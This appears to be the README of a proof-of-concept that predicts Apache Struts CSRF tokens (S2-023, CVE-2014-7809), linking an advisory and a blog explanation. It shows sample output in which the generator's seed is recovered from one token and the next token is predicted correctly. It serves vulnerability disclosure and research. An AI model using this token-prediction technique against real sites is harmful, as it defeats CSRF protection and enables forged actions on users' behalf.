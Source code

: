 Proof of concept code to predict Struts CSRF token. [[S2-023](http://struts.apache.org/docs/s2-023.html)]

For a complete explanation, you can read : [Predicting Struts CSRF Token (CVE-2014-7809)](http://blog.h3xstream.com/2014/12/predicting-struts-csrf-token-cve-2014.html)

**Execution preview:**

    == Initial token
    H6P3Y3GHIC2865ASZVQ913NR93QZO7BR
    == Initial token in hex (easier evaluation)
    14b08fcbf6523eecd7dd7d3e89cf97d6f478db5617

    Guessing part..
    == bytes representation (reconstructed byte array)
    14b08fcb
    f6523eec
    d7dd7d3e
    89cf97d6
    f478db56
    Seed found: 259752424024079
    == following int .. (should match the initial token last part) 
    d7dd7d3e
    89cf97d6
    f478db56
    175a6e1c
    == (prediction) Next token 
    1590c1573a30295e6d87082bf2c389f575f5fcfa3890b8ac

    == (actual) Next token
    HWVVZO2VGBZOYD0QFWE8GU3BW4DCRVW8
    == (actual) Next token in hex (easier evaluation)
    1590c1573a30295e6d87082bf2c389f575f5fcfa38
